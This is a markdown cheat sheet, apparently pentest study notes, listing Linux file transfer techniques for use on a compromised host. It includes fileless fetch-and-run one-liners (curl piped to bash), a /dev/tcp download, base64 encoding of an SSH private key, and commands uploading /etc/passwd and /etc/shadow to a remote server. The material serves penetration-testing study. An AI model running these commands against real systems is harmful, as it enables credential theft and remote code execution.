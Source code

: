 ```yaml
---
title: Linux File Transer
tags: [download, upload, wget, curl, base64]
tools: ['ftp', 'openssl', 'python']
notes: "Various file transfer techniques for Linux"
---
```


# Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://host/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://host/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```
